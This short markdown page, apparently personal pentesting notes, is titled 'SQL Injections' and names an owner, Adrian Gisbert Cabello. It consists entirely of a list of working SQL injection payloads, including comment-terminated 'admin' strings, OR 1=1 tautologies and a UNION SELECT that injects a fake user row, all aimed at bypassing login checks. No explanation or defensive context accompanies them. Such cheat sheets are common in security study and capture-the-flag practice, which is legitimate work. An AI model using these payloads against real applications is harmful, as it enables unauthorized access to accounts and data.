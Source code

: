 # SQL Injections

Propietario: Adrian Gisbert Cabello

- `admin' --`
- `admin' #`
- `admin' /*`
- `' OR 1=1;-- -`
- `' OR 1=1#`
- `' OR 1=1/*`
- `') OR '1'='1-- -`
- `') OR ('1'='1-- -`
- `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1-- -`